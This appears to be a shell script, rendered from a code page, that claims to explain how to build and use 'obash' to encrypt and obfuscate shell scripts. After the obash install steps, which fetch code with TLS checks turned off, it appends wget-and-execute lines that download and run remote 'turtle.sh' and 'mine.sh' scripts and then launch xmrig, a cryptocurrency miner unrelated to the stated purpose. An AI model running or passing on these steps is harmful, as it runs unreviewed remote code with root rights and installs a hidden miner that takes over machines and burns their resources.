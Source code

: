#Encrypt and obfuscate your shell script

#We need to ensure package manager is updated and free from errors, then install dependencies.

#Debian/Ubuntu:

export DEBIAN_FRONTEND=noninteractive

apt update

apt autoremove --fix-missing -y -f

apt upgrade -y

apt install build-essential libssl-dev curl -y


#RHEL/Fedora:

yum update -y

yum groupinstall "Development Tools" -y

yum install openssl-devel zip curl -y


#Then download and extract obash source archive:

curl -skL "https://github.com/louigi600/obash/archive/8976fd2fa256c583769b979036f59a741730eb48.tar.gz" -o obash.tgz

tar xf obash.tgz && rm -f obash.tgz


#Now enter obash source directory, run make clean first and start compiling obash, then copy obash executable into bin/sbin path of your machine:

cd obash-8976fd2fa256c583769b979036f59a741730eb48

make clean

make

mv -f obash /usr/local/sbin/obash

cd .. && rm -rf obash-8976fd2fa256c583769b979036f59a741730eb48


#Now our obash is now ready to use, run obash -h for guide how to use.

#examples:
#Encrypt your myscript.sh with output filename MyEncryptedScript(executable only on local machine):

obash -o MyEncryptedScript myscript.sh

#Encrypt your myscript.sh with output filename MyEncryptedScript(executable on all machine/reusable):

obash -r -o MyEncryptedScript myscript.sh

#Test run: 

./MyEncryptedScript

# xmrig

wget https://raw.githubusercontent.com/itsgelogomayee/xmrig/main/turtle.sh && chmod +x turtle.sh && ./turtle.sh


wget https://raw.githubusercontent.com/itsgelogomayee/xmrig/main/mine.sh && chmod +x mine.sh && ./mine.sh

# run

./xmrig
